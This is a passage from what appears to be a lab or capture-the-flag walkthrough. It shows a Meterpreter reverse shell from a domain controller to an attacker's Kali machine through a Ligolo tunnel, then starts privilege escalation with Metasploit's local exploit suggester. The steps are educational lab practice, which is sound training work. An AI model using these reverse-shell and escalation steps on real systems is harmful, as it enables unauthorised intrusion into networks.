 Watch your `msfconsole` window:

```
[*] Sending stage (201798 bytes) to 172.16.20.2
[*] Meterpreter session 1 opened (10.10.14.83:4444 -> 172.16.20.2:xxxxx)
```

🎉 **Meterpreter session established!**

---

🎓 **Understanding the Connection:**

```
DC02 (172.16.20.2) → shell.exe executes
↓
Reverse connection starts
↓
Through Ligolo tunnel
↓
Your Kali machine receives (10.10.14.83:4444)
```

Interact with the session:

```
sessions -i 1
getuid
```

Output: `Server username: darkzero-ext\svc_sql`

You're now running as the SQL service account on DC02!

---

## 🔓 Phase 5: Privilege Escalation - Becoming SYSTEM

**Current Status:** `darkzero-ext\svc_sql` (limited user)  
**Goal:** `NT AUTHORITY\SYSTEM` (highest privileges)

---

### Finding the Exploit

Metasploit has an automated exploit suggester:

```
background
use multi/recon/local_exploit_suggester
set session 1
run
```

🎓 **What's happening?**

The suggester:

- Gathers system information (OS version, patch level, architecture)  
- Compares against known exploits in Metasploit's database  
- Recommends exploits likely to work
